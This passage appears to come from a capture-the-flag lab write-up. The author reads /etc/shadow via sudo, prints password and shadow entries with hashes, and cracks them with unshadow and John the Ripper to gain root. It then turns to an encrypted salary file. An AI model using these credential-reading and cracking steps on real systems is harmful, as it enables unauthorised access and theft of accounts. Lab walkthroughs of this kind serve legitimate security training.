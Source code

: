The cat command running under sudo meant that I'd be able to read /etc/shadow which contains the encrypted passwords for all the users on the server. With that in mind, I grabbed the user entries in /etc/passwd and /etc/shadow:

```
# /etc/passwd
root:x:0:0:DO NOT CHANGE PASSWORD - WILL BREAK FTP ENCRYPTION:/root:/bin/bash
aadams:x:1000:10:,,,:/home/aadams:/bin/bash
bbanter:x:1001:100:,,,:/home/bbanter:/bin/bash
ccoffee:x:1002:100:,,,:/home/ccoffee:/bin/bash
```

```
# /etc/shadow
root:$1$TOi0HE5n$j3obHaAlUdMbHQnJ4Y5Dq0:13553:0:::::
aadams:$1$6cP/ya8m$2CNF8mE.ONyQipxlwjp8P1:13550:0:99999:7:::
bbanter:$1$hl312g8m$Cf9v9OoRN062STzYiWDTh1:13550:0:99999:7:::
ccoffee:$1$nsHnABm3$OHraCR9ro.idCMtEiFPPA.:13550:0:99999:7:::
```

I saved them to mypass.txt and myshad.txt respectively and merged them using unshadow to create a file primed for password cracking with John The Ripper:

```
/pentest/passwords/jtr/unshadow mypass.txt myshad.txt > unshadowed.txt
/pentest/passwords/jtr/john --wordlist=passwords.txt unshadowed.txt
```

While waiting for john to finish, I checked to see what progress hydra had made and found that it had discovered the passwords for bbanter and ccoffee. I stopped john and removed those users from the unshadowed.txt file which left only the root account left to crack, and ran john again. 

Eventually john successfully cracked the root password, which turned out to be tarot. I decide to give it a try:

```
aadams@slax:~$ su -
Password: *****
root@slax:~# id
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy)
```

The server had been successfully rooted. At this point I figured the game was over. I went back to the dummy company website to look at the hints page and see if I had done everything correctly. As it turns out, there was one more challenge - obtain the CEO's bank account information. 

I decided to explore the FTP service again, so I went to /home/ftp/incoming and found a file called salary_dec2003.csv.enc. The file command told me it was just data, which didn't help me much, so I tried strings to see if I could find anything readable in there:

```
root@slax:/home/ftp/incoming# file salary_dec2003.csv.enc 
salary_dec2003.csv.enc: data
root@slax:/home/ftp/incoming# strings salary_dec2003.csv.enc | head
Salted__n
Lw$A`
YN>7
#ki8
```
